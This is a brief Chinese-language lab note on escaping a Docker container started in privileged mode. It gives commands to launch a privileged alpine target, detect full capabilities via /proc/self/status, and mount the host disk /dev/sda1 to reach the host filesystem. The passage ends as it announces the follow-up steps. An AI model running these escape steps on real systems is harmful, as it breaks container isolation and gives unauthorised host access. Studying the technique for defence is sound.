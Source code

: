 配置不当--特权模式

运维人员在启动容器得时候，是以root权限启动得就造成特权逃逸

特权模式通常是指以root用户或具有特殊权限的用户身份运行的进程

启动靶场：docker run --rm --privileged=true -it alpine

 

检测\[只要输出； 其中一段就是特权\]

cat /proc/self/status \| grep CapEff \| grep -E '0000003fffffffff\|0000001fffffffff'

![image-20231202152343259](./assets/image-20231202152343259.png)

 

fdisk -l 查看目录

![image-20231202152346820](./assets/image-20231202152346820.png)

特权逃逸：mkdir /test1 && mount /dev/sda1 /test1

判断结果：cd /test1/ && ls

 

![image-20231202152350280](./assets/image-20231202152350280.png)

 

逃逸成功

接下来看逃逸成功之后的操作---docker
